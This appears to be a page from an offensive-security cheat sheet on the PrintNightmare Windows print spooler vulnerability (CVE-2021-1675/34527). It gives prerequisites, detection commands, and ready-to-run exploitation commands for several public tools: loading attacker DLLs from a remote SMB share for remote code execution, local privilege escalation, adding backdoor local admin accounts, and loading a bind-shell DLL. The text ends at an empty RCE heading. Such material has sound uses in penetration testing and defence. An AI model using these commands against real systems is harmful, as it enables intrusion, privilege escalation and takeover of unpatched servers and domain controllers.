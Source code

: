 #### PrintNightmare

> CVE-2021-1675 / CVE-2021-34527

The DLL will be stored in `C:\Windows\System32\spool\drivers\x64\3\`.
The exploit will execute the DLL either from the local filesystem or a remote share.

Requirements:
* **Spooler Service** enabled (Mandatory)
* Server with patches < June 2021
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0


**Detect the vulnerability**:
* Impacket - [rpcdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py)
  ```ps1
  python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
  Protocol: [MS-RPRN]: Print System Remote Protocol
  ```
* [It Was All A Dream](https://github.com/byt3bl33d3r/ItWasAllADream) 
  ```ps1
  git clone https://github.com/byt3bl33d3r/ItWasAllADream
  cd ItWasAllADream && poetry install && poetry shell
  itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
  docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
  ```

**Trigger the exploit**: 

**NOTE**: The payload can be hosted on Impacket SMB server since [PR #1109](https://github.com/SecureAuthCorp/impacket/pull/1109): `python3 ./smbserver.py share /tmp/smb/` or using [Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer/blob/main/Invoke-BuildAnonymousSMBServer.ps1) : `Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer -Path C:\Share -Mode Enable`

* [SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)
  ```powershell
  # require a modified Impacket: https://github.com/cube0x0/impacket
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
  ## LPE
  SharpPrintNightmare.exe C:\addCube.dll
  ## RCE using existing context
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
  ## RCE using runas /netonly
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
  ```
* [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)
  ```powershell
  ## LPE only (PS1 + DLL)
  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
  Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
  Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
  ```
* [Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)
  ```powershell
  ## LPE
  misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
  ## RCE
  ```